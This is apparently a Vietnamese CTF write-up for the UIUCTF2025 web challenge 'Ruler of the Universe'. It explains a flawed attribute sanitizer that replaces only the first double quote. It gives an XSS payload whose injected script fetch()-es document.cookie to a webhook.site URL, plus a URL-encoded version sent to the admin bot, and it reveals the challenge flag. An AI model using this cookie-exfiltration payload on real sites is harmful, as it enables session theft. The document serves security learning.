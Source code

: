 ```yaml
---
title: Writeup Giải UIUCTF2025
date: 2025-07-29
categories: [web]
tags: [writeup] # TAG names should always be lowercase
---
```



## UIUCTF2025

## I. Ruler of the Universe

Khi ta mở sẽ thấy được giao diện như bên dưới

![image.png](/assets/img/posts/UIUCTF2025/image.png)

ngoài ra còn một trang `Admin Bot` 

![image1.png](/assets/img/posts/UIUCTF2025/image1.png)

thì cũng phần nào đoán được bài lab này liên quan đến chủ đề `XSS Injection` 

kiểm tra source code ta thấy một đoạn code khả nghi sau

```html
            <input
              id="message"
              name="message"
              type="text"
              class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
              placeholder={
                crewMessage
                  ? `Update your message: ${crewMessage}`
                  : "Enter a message for the crew"
              }
            />
```

Ở đây, `crewMessage` được đưa vào làm giá trị cho một **thuộc tính (prop/attribute)**. Ngoài ra cũng còn có một đoạn code phòng chống XSS nhưng chưa đủ chắc chắn như sau

```tsx
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";
```

đoạn code trên chỉ thay thế dấu `"` đầu tiên bằng `&quot;` nên ta vẫn có thể dễ dàng vượt qua nó

và ta sẽ khai thác lỗ hổng trên bằng payload như sau:  `" placeholder="Hello"><script>fetch('[https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=](https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=)' + document.cookie)</script>`
nhập payload vào phần `Crew Message:` trên trang web và kiểm tra

![image2.png](/assets/img/posts/UIUCTF2025/image2.png)

ta thấy đã thành công tiêm thẻ `script` vào trang web 

và việc cuối cùng ta phải làm là gửi trang web đã bị XSS này đến với `Adminbot` để lấy flag thôi

`url_part` gửi đến adminbot `module/1?message="+placeholder%3D"Hello"><script>fetch%28%27https%3A%2F%2Fwebhook.site%2Ffbdbb9e3-5a91-4964-83de-9b97f9a23bb4%3Fflag%3D%27+%2B+document.cookie%29<%2Fscript>`


> **Flag:**
> ```text
> uiuctf{maybe_i_should_just_use_react_c49b79}
> ```
{: .prompt-tip }
## Sẽ cập nhập thêm trong thời gian tới…
